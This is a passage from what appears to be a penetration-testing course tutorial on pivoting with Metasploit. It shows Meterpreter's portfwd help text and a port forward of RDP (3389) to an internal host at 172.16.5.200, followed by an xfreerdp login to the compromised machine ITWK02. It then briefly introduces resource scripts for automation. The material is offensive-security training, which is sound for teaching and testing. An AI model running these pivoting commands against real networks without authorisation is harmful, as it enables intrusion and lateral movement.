 The xfreerdp client opens a new window providing us access to the GUI of ITWK02 in the internal network via RDP.

We can also use a similar technique for port forwarding using the portfwd command from inside a Meterpreter session, which will forward a specific port to the internal network.

```bash
msf6 auxiliary(server/socks_proxy) > sessions -i 12
[*] Starting interaction with 5...

meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]

OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

We can create a port forward from localhost port 3389 to port 3389 on the target host (172.16.5.200).

```bash
meterpreter > portfwd add -l 3389 -p 3389 -r 172.16.5.200
[*] Local TCP relay created: :3389 <-> 172.16.5.200:3389
```

Let's test this by connecting to 127.0.0.1:3389 with xfreerdp to access the compromised host in the internal network.

```bash
kali@kali:~$ sudo xfreerdp /v:127.0.0.1 /u:luiza             
[08:09:25:307] [1314360:1314361] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[08:09:25:307] [1314360:1314361] [WARN][com.freerdp.crypto] - CN = itwk02
...
```

Using this technique, we are able to gain a remote desktop session on a host we were otherwise not able to reach from our Kali system. Likewise, if the second target machine was connected to an additional network, we could create a chain of pivots to reach further hosts.

In this section, we explored various methods and modules to pivot within Metasploit. We learned how to manually and automatically set routes through existing sessions and interact with systems reachable by these routes. Then, we leveraged the socks_proxy module to create a SOCKS proxy to reach the second target machine with proxychains. Finally, we used the Meterpreter command portfwd to forward ports.

### Automating Metasploit

Resource scripts can chain together a series of Metasploit console commands and Ruby code. Meaning, we can either use the built-in commands of Metasploit or write code in Ruby1 (as it's the language Metasploit is developed in) to manage control flow as well as develop advanced logic components for resource scripts.
